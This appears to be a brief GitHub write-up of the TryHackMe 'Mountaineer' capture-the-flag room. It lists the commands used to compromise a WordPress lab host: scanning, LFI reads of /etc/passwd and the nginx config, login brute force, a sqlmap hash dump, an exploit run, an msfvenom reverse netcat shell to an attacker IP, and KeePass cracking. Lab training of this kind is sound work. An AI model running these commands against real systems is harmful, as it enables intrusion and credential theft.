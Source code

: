 # TryHackMe-Mountaineer

**Scope:**

- LFI (Local File Inclusion)
- KeePass
- Nginx off-by-slash
- WordPress

Keywords:

- WordPress Enumeration
- WordPress Plugin
- WordPress Vulnerability
- LFI (Local File Inclusion)
- Nginx off-by-slash
- Login Credential Brute Force
- SQL Injection
- Remode Code Execution
- Creating Wordlist
- Netcat File Transfer
- Password Cracking
- keepass2john
- kpcli
- Keepass Access
- SSH Connection

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `wfuzz -u http://mountaineer.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --hc 404,500,501,502,503 -c -t 50 -L`
- `wpscan --url http://mountaineer.thm/wordpress --enumerate vt,u --connect-timeout 10 --detection-mode aggressive --plugins-detection mixed --random-user-agent`
- `wpscan --url http://mountaineer.thm/wordpress --enumerate vp --connect-timeout 10 --detection-mode aggressive --plugins-detection mixed --random-user-agent`
- `wfuzz -u http://mountaineer.thm/wordpress/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --hc 404,500,501,502,503 -c -t 100 -L`
- `curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/passwd`
- `curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/nginx/sites-available/default`
- `ffuf --request http_request.req --request-proto http -w wordpressuser.txt:USERFUZZ -w passwords.txt:PASSFUZZ -fr 'Login failed.' -mc 200,301,302,403 -t 30 -ic`
- `sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_pass --where "user_login='admin'" --dump --batch`
- `python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p '8O!Uv68eppgxFi4^'`
- `msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`
- `nc -l -p 11342 > Backup.kdbx`
- `cupp -i`
- `keepass2john Backup.kdbx > backupmount_hash`
- `sudo john backupmount_hash --wordlist=mount.txt`
- `kpcli --kdb Backup.kdbx`
- `ssh kangchenjunga@mountaineer.thm -p 22`
